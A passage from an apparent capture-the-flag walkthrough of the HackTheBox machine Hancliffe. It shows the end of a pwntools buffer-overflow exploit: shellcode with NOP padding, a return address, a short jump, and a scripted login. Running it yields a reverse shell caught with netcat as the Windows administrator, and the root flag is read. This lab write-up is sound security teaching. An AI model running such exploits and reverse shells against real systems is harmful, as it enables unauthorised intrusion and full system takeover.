    payload = recv_sc + b"\x90"*(66-len(recv_sc)) + p32(0x7190239f) + b"\xeb\xb8"
    
    r.recvuntil(b"Username: ")
    r.sendline(b"alfiansyah")
    r.recvuntil(b"Password: ")
    r.sendline(b"K3r4j@@nM4j@pAh!T")
    r.recvuntil(b"FullName: ")
    r.sendline(b"0xdf")
    r.recvuntil(b"Input Your Code: ")
    r.sendline(payload)
    time.sleep(1)
    r.send(shellcode)
    

Now I’ll fire it at Hancliffe:

    
    
    oxdf@hacky$ python3 sploit.py IP=10.10.11.115 PORT=9999
    [+] Opening connection to 10.10.11.115 on port 9999: Done
    [*] Closed connection to 10.10.11.115 port 9999
    

At `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.115 58565
    Microsoft Windows [Version 10.0.19043.1266]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>whoami
    hancliffe\administrator
    

And I can grab `root.txt`:

    
    
    C:\Users\Administrator\Desktop>type root.txt
    3a0478e0************************
    

[](/2022/03/05/htb-hancliffe.html)

